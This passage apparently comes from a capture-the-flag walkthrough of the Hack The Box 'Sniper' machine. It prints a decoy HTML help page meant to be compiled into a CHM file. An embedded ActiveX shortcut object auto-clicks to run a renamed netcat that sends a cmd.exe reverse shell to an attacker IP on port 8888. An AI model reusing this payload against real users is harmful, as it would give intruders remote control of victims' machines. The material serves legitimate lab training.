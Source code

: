 <a class="image-popup">
![9459d742.png](/assets/images/posts/sniper-htb-walkthrough/9459d742.png)
</a>

<div class="filename"><span>a.html</span></div>

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>

<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>

<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
  <PARAM name="Command" value="ShortCut">
  <PARAM name="Button" value="Bitmap::shortcut">
  <PARAM name="Item1" value=',cmd,/c start c:\temp\cute.exe 10.10.15.171 8888 -e cmd.exe'>
  <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
  x.Click();
</SCRIPT>

</body>
</html>
```

For the record, I transfered the `nc.exe` I had earlier to `C:\Temp`. To compile the CHM file, I need a project file. It's a ridiculously simple file.
